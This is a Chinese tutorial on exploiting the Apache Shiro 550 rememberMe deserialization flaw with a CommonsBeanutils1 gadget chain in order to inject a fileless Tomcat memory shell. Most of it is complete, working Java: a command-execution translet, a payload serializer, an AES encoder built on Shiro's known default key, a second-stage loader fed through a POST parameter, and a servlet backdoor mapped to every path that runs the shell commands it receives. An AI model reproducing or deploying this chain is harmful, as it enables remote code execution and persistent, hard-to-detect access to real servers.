## 简介
在Tomcat内存马无文件攻击中，介绍了存在反序列化点的时候，发送base64 编码之后的序列化数据，通过反序列化执行代码，注入Tomcat Fiilter，Tomcat Servlet，Tomcat Listener进行无文件生成内存马达到权限维持的目的，本章主要内容是利用shiro的反序列化点进行无文件注入内存马的一些注意事项
shiro550 反序列化由于是存在于Cookie的rememberMe字段中，当将序列化的文件通过base64编码之后，再AES加密生成的AES加密的字符发送到服务端执行反序列化，在shiro550 反序列化分析一文中虽然存在Commons-Collections3.2.1 但是在此过程中存在防护，不能使用Transformer类，就只能使用TemplatesImpl实例化_bytecodes来进行代码执行，以下使用CB1来进行注入

## 环境
环境搭建参考shiro550 反序列化分析一文中的环境搭建，下面为本次使用的版本信息

| jdk | jdk8u181 |
| --- | --- |
| tomcat | tomcat8.5.79 |

## 攻击流程
和Tomcat内存马无文件攻击一样，首先需要获取获取request，然后通过request获取对应的获取ServletContext，进而获取到StandardContext，进行注入Servlet和Listener，注意这里没有Filter（由于Shiro本身就是一个Filter，我在这里测试发现并不能注入，在将我们的filter放置到最前的时候，会报错，直接进入catch语句里，但是**注入Filter类型内存马是可行的，但是暂未复现成功**）
### 注意事项
由于shiro反序列化的时候payload是存放在HTTP Header中，在HTTP 传输协议当中，HTTP头部不能携带超大数据进行传输，当超过最大的限制则会直接报400客户端错误，这一步是最为关键的，在合适的HTTP Header Size才是最优解，看了很多博客尝试通过反射修改Tomcat HTTPHeaderSize尝试之后发现并不可行，在执行过程中报错`sun.misc.launcher$appclassloader cannot be cast to org.apache.catalina.loader.webappclassloaderbase`大概意思就是未能转化webappclassloaderbase，最终选择使用[通用版shiro回显](https://gist.github.com/fnmsd/4d9ed529ceb6c2a464f75c379dadd3a8)的payload
### 0x1 注入Servlet普通内存马
这里使用fnmsd大佬提供的payload 获取request，通过编译之后只有3.8K的大小，这里需要继承AbstractTranslet类，因为要通过TemplatesImpl的实例化
```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.lang.reflect.Field;
import java.util.HashSet;
import java.util.Scanner;


public class Main extends AbstractTranslet {

    static HashSet<Object> h;
    static HttpServletRequest r;
    static HttpServletResponse p;
    public Main()  {
        r = null;
        p = null;
        h = new HashSet<Object>();
        F(Thread.currentThread(), 0);
    }

    private static boolean i(Object obj) {
        if (obj == null || h.contains(obj)) {
            return true;
        }

        h.add(obj);
        return false;
    }

    private static void p(Object o, int depth) {
        if (depth > 52 || (r != null && p != null)) {
            return;
        }
        if (!i(o)) {
            if (r == null && HttpServletRequest.class.isAssignableFrom(o.getClass())) {
                r = (HttpServletRequest) o;
                if (r.getParameter("cmd") == null) {
                    r = null;
                } else {
                    try {
                        p = (HttpServletResponse) r.getClass().getMethod("getResponse").invoke(r);

                    } catch (Exception e) {
                        r = null;
                    }
                }

            }
            if (r != null && p != null) {
                try {
                    p.getWriter().println(new Scanner(Runtime.getRuntime().exec(r.getParameter("cmd")).getInputStream()).useDelimiter("\\A").next());
                    p.getWriter().flush();
                } catch (Exception e) {
                }
                return;
            }

            F(o, depth + 1);
        }
    }

    private static void F(Object start, int depth) {

        Class n = start.getClass();
        do {
            for (Field declaredField : n.getDeclaredFields()) {
                declaredField.setAccessible(true);
                Object o = null;
                try {
                    o = declaredField.get(start);

                    if (!o.getClass().isArray()) {
                        p(o, depth);
                    } else {
                        for (Object q : (Object[]) o) {
                            p(q, depth);
                        }

                    }

                } catch (Exception e) {
                }
            }

        } while (
                (n = n.getSuperclass()) != null
        );
    }

    @Override
    public void transform(DOM d, SerializationHandler[] h)  {

    }

    @Override
    public void transform(DOM d, DTMAxisIterator i, SerializationHandler h)  {

    }
}
```
再编写CB1链的代码，通过读取Main.class再将其放置在TemplatesImpl的_bytecodes中，最后再反序列化生成cb1.ser
```java
package com.test;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.beanutils.BeanComparator;

import java.io.*;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class CB1Test {

    public static void main(String[] args) throws Exception {
        byte[] clazzBytes = getBytes();
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFieldValue(templates, "_bytecodes", new byte[][]{clazzBytes});
        setFieldValue(templates, "_name", "HelloTemplatesImpl");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());

        BeanComparator comparator = new BeanComparator(null, String.CASE_INSENSITIVE_ORDER);
        PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);
        queue.add("1");
        queue.add("1");
        setFieldValue(comparator, "property", "outputProperties");
        setFieldValue(queue, "queue", new Object[]{templates, templates});

        try{
            FileOutputStream fileOutputStream = new FileOutputStream("cb1.ser");
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(fileOutputStream);
            objectOutputStream.writeObject(queue);
        }catch (Exception e){
            e.printStackTrace();
        }
    }

    public static void setFieldValue(Object object, String field, Object args) throws Exception {
        Field f0 = object.getClass().getDeclaredField(field);
        f0.setAccessible(true);
        f0.set(object,args);
    }

    public static byte[] getBytes() throws Exception {
        String tomcatEcho = "<编译的Main.class绝对路径>";

        InputStream inputStream = new FileInputStream(tomcatEcho);
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        int n = 0;
        while ((n=inputStream.read())!=-1){
            byteArrayOutputStream.write(n);
        }
        byte[] bytes = byteArrayOutputStream.toByteArray();
        return bytes;
    }
}

```
然后在shiro中对上一步生成的cb1进行base64编码+AES加密
```java
package com.test;

import org.apache.shiro.codec.Base64;
import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.util.ByteSource;

import java.io.ByteArrayOutputStream;
import java.io.FileInputStream;
import java.io.InputStream;

public class AESEncode {
    public static void main(String[] args)throws Exception {
        String tomcatEcho = "<cb1Test.java 生成的CB1.ser>";
        byte[] key = Base64.decode("kPH+bIxk5D2deZiIxcaaaA==");
        AesCipherService aes = new AesCipherService();
        ByteSource ciphertext = aes.encrypt(getBytes(tomcatEcho), key);
        System.out.printf(ciphertext.toString());
    }
    public static byte[] getBytes(String path) throws Exception{
        InputStream inputStream = new FileInputStream(path);
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        int n = 0;
        while ((n=inputStream.read())!=-1){
            byteArrayOutputStream.write(n);
        }
        byte[] bytes = byteArrayOutputStream.toByteArray();
        return bytes;

    }
}

```
第一步首先编译Main.java



第二步，将编译生成的Main.class写入到TemplatesImpl._bytecodes中



第三步，将序列化得到的CB1.ser通过AES加密，放置到Cookie的rememberMe字段中



最后携带参数即可执行命令



在此过程中我们可以发现，要执行命令就必须得带上这一串臃肿的Cookie，这显然与我们的注入内存马还是有点偏差，那么需要如何改造呢？当然还是得注入Servlet或者Listener
如果在fnmsd大佬提供的payload，那么还是会超过MaxHTTPHeaderSize，那么我们知道HTTP协议中POST请求的参数可以携带大体积的参数，那么就只需要在该payload中再添加一个反序列化点，在POST请求体中获取反序列化的地方，进行反序列化完成二次注入，这样来执行命令
首先完善payload，加上获取data参数的逻辑，再进行反序列化



```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import sun.misc.BASE64Decoder;

import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.ByteArrayInputStream;
import java.io.ObjectInputStream;
import java.lang.reflect.Field;
import java.util.HashSet;
import java.util.Scanner;


public class Main extends AbstractTranslet {

    static HashSet<Object> h;
    static HttpServletRequest r;
    static HttpServletResponse p;
    public Main()  {
        r = null;
        p = null;
        h = new HashSet<Object>();
        F(Thread.currentThread(), 0);
    }

    private static boolean i(Object obj) {
        if (obj == null || h.contains(obj)) {
            return true;
        }

        h.add(obj);
        return false;
    }

    private static void p(Object o, int depth) {
        if (depth > 52 || (r != null && p != null)) {
            return;
        }
        if (!i(o)) {
            if (r == null && HttpServletRequest.class.isAssignableFrom(o.getClass())) {
                r = (HttpServletRequest) o;
                if (r.getParameter("cmd") == null) {
                    r = null;
                } else {
                    try {
                        p = (HttpServletResponse) r.getClass().getMethod("getResponse").invoke(r);

                    } catch (Exception e) {
                        r = null;
                    }
                }

            }
            if (r != null && p != null) {
                try {
                    if(r.getParameter("data")!=null){
                        byte[] buff = new BASE64Decoder().decodeBuffer(r.getParameter("data"));
                        ByteArrayInputStream bai = new ByteArrayInputStream(buff);
                        ObjectInputStream ois = new ObjectInputStream(bai);
                        ois.readObject();
                    }else{
                        p.getWriter().println(new Scanner(Runtime.getRuntime().exec(r.getParameter("cmd")).getInputStream()).useDelimiter("\\A").next());
                        p.getWriter().flush();
                    }
                } catch (Exception e) {
                }
                return;
            }

            F(o, depth + 1);
        }
    }

    private static void F(Object start, int depth) {

        Class n = start.getClass();
        do {
            for (Field declaredField : n.getDeclaredFields()) {
                declaredField.setAccessible(true);
                Object o = null;
                try {
                    o = declaredField.get(start);

                    if (!o.getClass().isArray()) {
                        p(o, depth);
                    } else {
                        for (Object q : (Object[]) o) {
                            p(q, depth);
                        }

                    }

                } catch (Exception e) {
                }
            }

        } while (
                (n = n.getSuperclass()) != null
        );
    }

    @Override
    public void transform(DOM d, SerializationHandler[] h)  {

    }

    @Override
    public void transform(DOM d, DTMAxisIterator i, SerializationHandler h)  {

    }
}
```
然后这里使用[天下大木头](https://github.com/KpLi0rn/ShiroVulnEnv)的TomcatEcho.java的代码，修改修改，使用遍历Thread获取request
```java
public static HttpServletRequest getRequest() {
    try {
        boolean flag = false;
        Thread[] threads = (Thread[]) getField(Thread.currentThread().getThreadGroup(), "threads");
        for (int i = 0; i < threads.length; i++) {
            Thread thread = threads[i];
            if (thread != null) {
                String threadName = thread.getName();
                if (!threadName.contains("exec") && threadName.contains("http")) {
                    Object target = getField(thread, "target");
                    Object global = null;
                    if (target instanceof Runnable) {
                        // 需要遍历其中的 this$0/handler/global
                        // 需要进行异常捕获，因为存在找不到的情况
                        try {
                            global = getField(getField(getField(target, "this$0"), "handler"), "global");
                        } catch (NoSuchFieldException fieldException) {
                            fieldException.printStackTrace();
                        }
                    }
                    // 如果成功找到了 我们的 global ，我们就从里面获取我们的 processors
                    if (global != null) {
                        List processors = (List) getField(global, "processors");
                        for (i = 0; i < processors.size(); i++) {
                            RequestInfo requestInfo = (RequestInfo) processors.get(i);
                            if (requestInfo != null) {
                                Request tempRequest = (Request) getField(requestInfo, "req");
                                org.apache.catalina.connector.Request request = (org.apache.catalina.connector.Request) tempRequest.getNote(1);
                                return request;
                            }
                        }
                    }
                }
            }
            if (flag) {
                break;
            }
        }
    } catch (Exception e) {
        e.printStackTrace();
    }
    return null;
}
```
当获取到request之后，完成注入servlet的代码
```java
static  {
    HttpServletRequest request = getRequest();
    ServletContext servletContext = request.getSession().getServletContext();
    if (servletContext == null) {
        System.out.println("未获取到servletContext");
    } else {
        try {
            Field appctx = servletContext.getClass().getDeclaredField("context");
            appctx.setAccessible(true);
            ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);
            Field stdctx = applicationContext.getClass().getDeclaredField("context");
            stdctx.setAccessible(true);
            StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);
            Servlet demo = new Behinder();
            org.apache.catalina.Wrapper demoWrapper = standardContext.createWrapper();
            //设置Servlet名等
            demoWrapper.setName(servletName);
            demoWrapper.setLoadOnStartup(1);
            demoWrapper.setServlet(demo);
            demoWrapper.setServletClass(demo.getClass().getName());
            standardContext.addChild(demoWrapper);
            //设置ServletMap
            standardContext.addServletMapping(servletUrlPattern, servletName);
            System.out.println("success");
        } catch (Exception e) {
            try {
                java.lang.Runtime.getRuntime().exec("open /System/Applications/Calculator.app");
            } catch (Exception a) {
                a.printStackTrace();
            }
            System.out.println("失败了！草");
            e.printStackTrace();
        }

    }
}
```
最后再在servlet的service中添加恶意代码
```java
@Override
    public void service(ServletRequest servletRequest, ServletResponse servletResponse) throws ServletException, IOException {
        try {
            System.out.println("do service");
            HttpServletRequest request = (HttpServletRequest) servletRequest;
            HttpServletResponse response = (HttpServletResponse) servletResponse;
            response.getWriter().println(new Scanner(Runtime.getRuntime().exec(request.getParameter("cmd2")).getInputStream()).useDelimiter("\\A").next());
            response.getWriter().flush();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
```
完整代码如下：
```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import org.apache.catalina.core.ApplicationContext;
import org.apache.catalina.core.StandardContext;
import org.apache.coyote.Request;
import org.apache.coyote.RequestInfo;

import javax.crypto.Cipher;
import javax.crypto.spec.SecretKeySpec;
import javax.servlet.*;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import javax.servlet.http.HttpSession;
import java.io.IOException;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.List;
import java.util.Scanner;


public class Behinder extends AbstractTranslet implements Servlet {
    private final static String servletUrlPattern = "/*";
    private final static String servletName = "test";

    public Behinder() {
    }

    static {
        HttpServletRequest request = getRequest();
        ServletContext servletContext = request.getSession().getServletContext();
        if (servletContext == null) {
            System.out.println("未获取到servletContext");
        } else {
            try {
                Field appctx = servletContext.getClass().getDeclaredField("context");
                appctx.setAccessible(true);
                ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);
                Field stdctx = applicationContext.getClass().getDeclaredField("context");
                stdctx.setAccessible(true);
                StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);
                Servlet demo = new Behinder();
                org.apache.catalina.Wrapper demoWrapper = standardContext.createWrapper();
                //设置Servlet名等
                demoWrapper.setName(servletName);
                demoWrapper.setLoadOnStartup(1);
                demoWrapper.setServlet(demo);
                demoWrapper.setServletClass(demo.getClass().getName());
                standardContext.addChild(demoWrapper);
                //设置ServletMap
                standardContext.addServletMapping(servletUrlPattern, servletName);
                System.out.println("success");
            } catch (Exception e) {
                try {
                    java.lang.Runtime.getRuntime().exec("open /System/Applications/Calculator.app");
                } catch (Exception a) {
                    a.printStackTrace();
                }
                System.out.println("失败了！草");
                e.printStackTrace();
            }

        }
    }

    public static HttpServletRequest getRequest() {
        try {
            boolean flag = false;
            Thread[] threads = (Thread[]) getField(Thread.currentThread().getThreadGroup(), "threads");
            for (int i = 0; i < threads.length; i++) {
                Thread thread = threads[i];
                if (thread != null) {
                    String threadName = thread.getName();
                    if (!threadName.contains("exec") && threadName.contains("http")) {
                        Object target = getField(thread, "target");
                        Object global = null;
                        if (target instanceof Runnable) {
                            // 需要遍历其中的 this$0/handler/global
                            // 需要进行异常捕获，因为存在找不到的情况
                            try {
                                global = getField(getField(getField(target, "this$0"), "handler"), "global");
                            } catch (NoSuchFieldException fieldException) {
                                fieldException.printStackTrace();
                            }
                        }
                        // 如果成功找到了 我们的 global ，我们就从里面获取我们的 processors
                        if (global != null) {
                            List processors = (List) getField(global, "processors");
                            for (i = 0; i < processors.size(); i++) {
                                RequestInfo requestInfo = (RequestInfo) processors.get(i);
                                if (requestInfo != null) {
                                    Request tempRequest = (Request) getField(requestInfo, "req");
                                    org.apache.catalina.connector.Request request = (org.apache.catalina.connector.Request) tempRequest.getNote(1);
                                    return request;

                                }
                            }
                        }
                    }
                }
                if (flag) {
                    break;
                }
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
        return null;
    }

    public static Object getField(Object obj, String fieldName) throws Exception {
        Field f0 = null;
        Class clas = obj.getClass();

        while (clas != Object.class) {
            try {
                f0 = clas.getDeclaredField(fieldName);
                break;
            } catch (NoSuchFieldException e) {
                clas = clas.getSuperclass();
            }
        }

        if (f0 != null) {
            f0.setAccessible(true);
            return f0.get(obj);
        } else {
            throw new NoSuchFieldException(fieldName);
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }

    @Override
    public void init(ServletConfig servletConfig) throws ServletException {
        System.out.println("do init");
    }

    @Override
    public ServletConfig getServletConfig() {
        return null;
    }

    @Override
    public void service(ServletRequest servletRequest, ServletResponse servletResponse) throws ServletException, IOException {
        try {
            System.out.println("do service");
            HttpServletRequest request = (HttpServletRequest) servletRequest;
            HttpServletResponse response = (HttpServletResponse) servletResponse;
            response.getWriter().println(new Scanner(Runtime.getRuntime().exec(request.getParameter("cmd2")).getInputStream()).useDelimiter("\\A").next());
            response.getWriter().flush();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    @Override
    public String getServletInfo() {
        return null;
    }

    @Override
    public void destroy() {

    }
}

```
然后使用CB1序列化成文件，通过data参数传输过去
### 步骤
首先先使用shiro的反序列化，先序列化Main.class，通过base64编码+AES编码之后查看payload是否可用




然后将需要注入的servlet通过cb1序列化



再使用POST请求，data参数携带这一串base64编码之后的CB1.ser，传输的时候一定要记得url编码


然后去掉Cookie，所有的参数，使用cmd2参数执行命令

